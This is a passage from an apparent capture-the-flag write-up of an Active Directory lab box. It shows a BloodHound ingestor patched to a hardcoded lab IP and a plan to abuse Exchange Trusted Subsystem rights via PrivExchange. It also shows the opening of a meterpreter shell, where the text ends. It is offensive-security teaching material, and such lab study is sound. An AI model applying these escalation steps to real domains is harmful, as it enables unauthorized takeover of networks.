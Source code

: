       File "/usr/lib/python2.7/dist-packages/dns/resolver.py", line 992, in query
        timeout = self._compute_timeout(start, lifetime)
      File "/usr/lib/python2.7/dist-packages/dns/resolver.py", line 799, in _compute_timeout
        raise Timeout(timeout=duration)
    dns.exception.Timeout: The DNS operation timed out after 3.0016040802 seconds

We edit the code of `/root/BloodHound.py/bloodhound/ad/domain.py`:

    :::python
    def ldap_connect(self, protocol='ldap', resolver=False):
            """
            Connect to the LDAP service
            """
            logging.info('Connecting to LDAP server: %s' % self.hostname)

            # Convert the hostname to an IP, this prevents ldap3 from doing it
            # which doesn't use our custom nameservers
            #q = self.ad.dnsresolver.query(self.hostname, tcp=self.ad.dns_tcp)
            #for r in q:
                #ip = r.address
            ip = "10.10.10.161"

The ingestor create a few JSON files:

    :::text
    ls *.json
    computers.json  domains.json  groups.json  sessions.json  users.json

We start the `neo4j` database, `bloodhound` and feed him the JSON data.

When using the query "Shortest Paths to High Value Targets" we get the following
graph:

![Bloodhound complete view](/media/2020.03/forest_01.png).

## Exchange trusted subsystem and ntlmrelayx

Our `svc-alfresco` user got indirect right for the `Exchange trusted subsytem`
group.
For more information about the Active Directory Right:
[Documentation Microsoft](https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights).

Therefore we want to exploit our Exchange rights using
[PrivExchange](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/).

Let's create a user and add it in the `Exchange trusted subsytem` group.

    :::text
    meterpreter > shell
    Process 3256 created.
    Channel 1 created.
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.
